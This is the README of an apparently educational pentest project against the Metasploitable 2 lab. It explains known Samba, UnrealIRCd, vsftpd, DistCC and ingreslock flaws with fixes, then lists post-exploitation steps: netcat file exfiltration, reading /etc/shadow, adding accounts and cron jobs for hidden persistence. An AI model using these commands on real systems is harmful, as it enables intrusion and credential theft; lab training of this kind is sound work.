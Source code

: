 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/).

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding of system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I will be using different python3 functions. This allows the users to be able to view well documented code in an easy to read format. 

## System Requirements:
- Metasploitable 2
- Virtualbox

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol.
- Exploit: If Samba is configured to use the username map script and it is improperly configured, anyone can send arbitrary commands in disguise as a username to the server. The data sent to the targeted machine is not sanitized. The command will then be run without needing authorization.
- Fix: To fix this, the user can update to a new version. If they are still on the older version, the user can navigate to /etc/samba/smb.conf on the vulnerable machine. The user can then either comment out or remove the line "username map script = /etc/samba/scripts/mapusers.sh". 

### UnrealIRCd CVE-2010-2075
- Version: 3.2.8.1
- Port: 6667
- Desc: UnrealIRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealIRCD contains an exploit where it will execute any command with the priviledges of the user that is running the service if it begins with the string 'AB'. Ex: AB; [command to run].
- Exploit Cont: This exploit was introduced because someone had replaced all UnrealIRCD file download options on their mirror sites with a version that had a trojan in it.
- Fix: The only way to fix this exploit is to redownload a legitamate version of Unreal. This is because the backdoor is located in the "core" of the service (according to the developers).

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Port: 2121
- Desc: VSFTP is an FTP server for linux. 
- Exploit: There was a backdoor built into the VSFTP service that allows someone to gain root access to a targeted machine if they login with a username that has ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.
- Fix: The individual could update the the service or if they are still running on the version with the backdoor, they could set up an iptable to drop unused ports. (Which should be done anyways). Ex: iptables -A INPUT -p tcp --dport 6200 -j DROP and iptables -A INPUT -p udp --dport 6200 -j DROP

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any. Unleass the version is using ssh key pairs.
- Port: 25
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security and poor cyber security practices.
- Fix: Use strong passwords that can not be easily guessed. A more secure option would be to set up ssh key pairs.

### DistCC CVE-2004-2687
- Version: 2.x
- Port: 36255
- Desc: Distccd is a service that allows for a faster compilation time of C programs by distributing the compilation tasks across multiple different machines where it is able to find resources to do so.
- Exploit: DistCCD has a vulnerability that allows an attacker to execute arbitray commands on the targeted system. This is because the distccd daemon improperly handles commands send to it as a compilation request.
- Fix: Other than updating distccd to a version where the exploit has been patched, the user can configure distccd to only accept connection from trusted hosts through the use of a custom firewall configuration.

### Ingreslock 
- Version: ""
- Port: 1524 
- Desc: Ingreslock 
- Exploit: There was a backdoor implemented into Ingreslock on Metasploitable 2. Ingreslock was a popular target for users to add a backdoor on in the past. Often times, machines would be compromised by malicoius code (from software etc...) and it would implement the backdoor on the machine.
- Fix: Navigate to the /etc/inetd.conf file and remove the line "ingreslock stream tcp nowait root /bin/bash bash -i"


## Post-Exploitation Examples:
- Example of an attacker retrieving files from the remote machine
  - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
  - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]
- Example of an attacker doing further recon on the system (can help them discover more vulnerabilities by knowing the system specs)
  - uname -a
  - lsb_release
- Example of how an attacker can easily obtain passwords etc
  - cat /etc/shadow (or by directly downloading the file to their local machine)
- Example of an attacker maintaining access (create multiple accounts to blend in)
  - sudo useradd -m -s /bin/bash newuser
  - sudo passwd newuser
  - Creating a cron job to allow access back to the machine during certain times to avoid being detected

# Guide To Testing:

